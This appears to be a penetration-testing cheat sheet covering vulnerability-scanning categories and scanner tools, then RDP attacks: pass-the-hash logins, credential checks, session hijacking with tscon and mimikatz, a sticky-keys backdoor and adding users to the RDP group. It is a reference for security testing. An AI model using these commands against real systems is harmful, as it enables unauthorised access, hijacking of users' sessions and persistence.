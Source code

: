 # Vulnerability

### Vulnerability scanning
Includes:
* Application 
* Configuration
* Network 
* operating system 
* Network port based
* Network services based
* Banner grabbing
* Databases and Framework Modules
* Common/default Passwords
* Hardening 
* Misconfigurations
* Directory Listing/Brute Forcing
* Web Server Version/Vulnerability Identification
* Method (GET, POST, PUT, DELETE, OPTIONS)
* WebDav
* TRACE / TRACK
* VPN (Fingerprinting, Authentication)
* Voice Network Scanners
* Manual Direct Connections
* Obfuscated (Multiple Exit Nodes, IDS Evasion)
* Metadata Analysis
* Traffic Monitoring
* Citrix (Enumeration)
* DNS
* WEB
* Mail
* Identifying potential avenues/vectors

# Some example of tools you can use

## Nettacker (multi-scan)
Start it with docker-compose
```
docker-compose up -d && docker exec -it nettacker_nettacker_1 /bin/bash
```
Run your scan
```
python nettacker.py -i www.example.com -s -m port_scan
```
Access the result 
```
https://localhost:5000/
or
https://nettacker-api.z3r0d4y.com:5000/  (pointed to your localhost)
or
Default results path is .data/results
```

## Joomscan (joomla)
Do default checks
```
perl joomscan.pl -u www.example.com
```
Enumerate installed components
```
perl joomscan.pl -u www.example.com --ec
```

## Fuxploider (upload files)
Basic example
```
python3 fuxploider.py --url https://awesomeFileUploadService.com --not-regex "wrong file type"
```

## RDPChecker (Remote Desktop Protocol)
Test one host
```
python3 RDPChecker.py -d crazy.local -u Hypnoze -p S3cr3t 10.0.0.1
```
Test several hosts
```
python3 RDPChecker.py -d crazy.local -u Hypnoze -p S3cr3t 10.0.0.1,10.0.2.2,192.168.1.25,172.26.5.15
```
Test several hosts using file
``` 
python3 RDPChecker.py -d crazy.local -u Hypnoze -p S3cr3t hosts.txt
```
NMAP scritps
```
nmap -v --script rdp-enum-encryption -p 3389 -T4 IP
nmap -v --script rdp-vuln-ms12-020 -p 3389 -T4 IP
nmap -v --script rdp-ntlm-info -p 3389 -T4 IP
```
Connect with known creds
```
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp /u:[domain\]<username> /p:<password> /v:<IP>
xfreerdp /u:[domain\]<username> /pth:<hash> /v:<IP>
```
rdp_check.py from impacket let you check if some credentials are valid for a RDP service
```
rdp_check <domain>/<name>:<password>@<IP>
```
You can launch a new cmd to wich new credentials will be attached so, every interaction this new shell makes with the network will use the new credentials
```
runas /netonly /user:<DOMAIN>\<NAME> "cmd.exe" 
#The password will be prompted
```
With Administrator rights you can access any opened RDP session by any user without need to know the password of the owner.
```
	# Get openned sessions:
	query use

	#Access to the selected session
	tscon <ID> /dest:<SESSIONNAME>

# Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

# Important: When you access an active RDP sessions you will kickoff the user that was using it.
```
  *You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines).*

You could also use mimikatz to do this
```
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
Sticky-keys & Utilman
* Combining this technique with stickykeys or utilman you will be able to access a administrative CMD and any RDP session anytime.

Adding User to RDP group
```
net localgroup "Remote Desktop Users" UserLoginName /add
```